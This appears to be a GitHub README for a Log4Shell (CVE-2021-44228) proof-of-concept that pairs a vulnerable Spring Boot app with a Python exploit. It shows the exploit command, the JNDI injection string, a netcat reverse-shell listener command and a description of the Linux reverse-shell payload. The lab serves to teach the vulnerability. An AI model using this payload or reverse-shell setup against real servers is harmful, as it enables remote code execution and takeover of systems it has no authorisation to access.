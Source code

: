 # log4shell-poc

Proof-of-Concept for the CVE-2021-44228 vulnerability.

This repository contains an example Spring Boot application and a proof-of-concept exploit for the widely used log4j Java logging library.

## Attacker

### Requirements

Create a [virtual environment](https://docs.python.org/3/tutorial/venv.html) (optional but recommended).

Install the required Python packages using [pip](https://pip.pypa.io/en/stable/):

```bash
pip install -r requirements.txt
```

### Usage

Execute the exploit using the following command:

```bash
python poc.py --userip localhost --webport 8000 --lport 9001
```

```
$ python poc.py --userip localhost --webport 8000 --lport 9001
[!] CVE: CVE-2021-44228

[+] Generating Payload...
[+] Using payload for Windows
[+] Successfully created payload

[+] Starting LDAP server

[+] Starting web server http://0.0.0.0:8000

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

### Exploit Details

This script sets up both HTTP and LDAP servers and generates a payload for the vulnerable parameter. The payload varies based on the operating system, providing additional examples of this exploit.

- **On Windows**: It launches the calculator application.
- **On Linux**: It establishes a reverse shell connection.

<br>

To listen for the connection, use [netcat](https://docs.oracle.com/cd/E86824_01/html/E54763/netcat-1.html) with the following command:

```bash
nc -lvnp 9001
```

## Victim

### Usage

Run the Spring Boot application:

```bash
./mvnw spring-boot:run
```

```
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::                (v2.6.1)

...

2024-05-10 18:44:03.951  INFO 17200 --- [main] o.s.b.w.e.t.TomcatWebServer  : Tomcat started on port(s): 8080 (http) with context path ''
2024-05-10 18:44:03.959  INFO 17200 --- [main] c.e.d.Application            : Started Application in 1.657 seconds (JVM running for 2.233)
```

Access the web application by going to:

```
http://localhost:8080/
```

## Credits

This project is based on the proof-of-concept by [kozmer](https://github.com/kozmer/log4j-shell-poc).

## Disclaimer

The purpose of this project is to help people learn about this vulnerability.
